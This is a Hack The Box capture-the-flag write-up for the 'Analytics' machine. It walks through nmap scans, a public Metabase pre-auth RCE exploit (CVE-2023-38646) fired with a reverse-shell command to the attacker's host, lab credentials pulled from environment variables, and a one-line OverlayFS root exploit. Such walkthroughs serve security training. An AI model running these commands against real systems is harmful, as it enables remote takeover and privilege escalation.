# [Analytics](https://app.hackthebox.com/machines/Analytics)

```bash
nmap -p-  --min-rate 5000 10.10.11.233 -Pn 
```



After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.233 -Pn
```




From nmap scan result, we can see that ip address is resolved into `analytical.htb`, let's add this record into `/etc/hosts` file for resolving purposes.

While we try to `login`, we got `data.analytical.htb` domain name, let's add this also into `/etc/hosts` file.


That's Metabase.




While I search publicly-known exploit, I find [CVE-2023-38646](https://github.com/m3m0o/metabase-pre-auth-rce-poc).

Let's use this exploit.

For this, I need to get `setup-token` value from `/api/session/properties` endpoint.



```bash
python3 main.py -u http://data.analytical.htb -t '249fa03d-fd94-4d5b-b94f-b4ebf3df681f' -c 'sh -i >& /dev/tcp/10.10.14.4/1337 0>&1'
```



Hola! I got reverse shell from port `1337`.




By running `hostname` command, I see that it is `container` machine.




Let's enumerate machine, I look at environment variables by browsing `/proc/self/environ`. I find sensitive credentials from this file.




metalytics: An4lytics_ds20223#

Let's test this credentials against our machine via `ssh`.

user.txt




For `Privilege Escalation`, I just run `uname -a` to learn all information about this machine.




While I search this machine's properties, I find publicly known exploit whose CVE-id is [CVE-2023-2640](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629).




Let's use this payload for `privilege escalation`.
```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'
```


root.txt

